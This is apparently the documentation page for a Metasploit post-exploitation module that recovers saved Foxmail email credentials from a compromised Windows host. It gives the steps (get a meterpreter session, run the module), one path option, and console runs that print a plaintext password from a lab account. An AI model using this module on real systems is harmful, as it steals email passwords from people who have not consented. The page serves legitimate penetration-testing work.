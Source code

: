## Verification Steps

  1. Download and install Foxmail package from the official website: https://foxmail.com/win/en.
  2. Use FoxMail to log into a mail server.
  3. Remember to save the account password.
  4. Get a `meterpreter` session on a Windows host.
  5. Do: ```run post/windows/gather/credentials/foxmail```
  6. If the account file is saved in the system, the email, server, port and plaintext password will be printed.

## Options

 **ACCOUNT_PATH**

  - Specifies the account directory path for Foxmail

## Scenarios
### FoxMail 7.2 on Windows
```
[*] Search account files on C:\Foxmail 7.2\Storage
[+] Parsing configuration file: 'C:\Foxmail 7.2\Storage\kali-team@qq.com\Accounts\Account.rec0', please wait.
Foxmail Password
================

Email                       Server                   Port  SSL    Password
-----                       ------                   ----  ---    --------
kali-team@qq.com            imap.qq.com              993   true   fjcqkkeqbuweddch
kali-team@qq.com            smtp.qq.com              465   true   fjcqkkeqbuweddch

[+] Passwords stored in: /home/kali-team/.msf4/loot/20201004174103_default_10.0.2.15_host.foxmail_pas_205001.txt
[*] Post module execution completed

```

### FoxMail 7.2 on Windows, with ACCOUNT_PATH specified

```
msf6 post(windows/gather/credentials/foxmail) > set account_path "C:\Foxmail 7.2\Storage\"
account_path => C:\Foxmail 7.2\Storage\
msf6 post(windows/gather/credentials/foxmail) > run
[*] Search account files on C:\Foxmail 7.2\Storage\kali-team@qq.com\Accounts
[+] Parsing configuration file: 'C:\Foxmail 7.2\Storage\kali-team@qq.com\Accounts\Account.rec0', please wait.
Foxmail Password
================

Email              Server       Port  SSL   Password
-----              ------       ----  ---   --------
kali-team@qq.com   imap.qq.com  993   true  fjcqkkeqbuweddch
kali-team@qq.com   smtp.qq.com  465   true  fjcqkkeqbuweddch

[+] Passwords stored in: /home/kali-team/.msf4/loot/20201004174452_default_10.0.2.15_host.foxmail_pas_487470.txt
[*] Post module execution completed

```
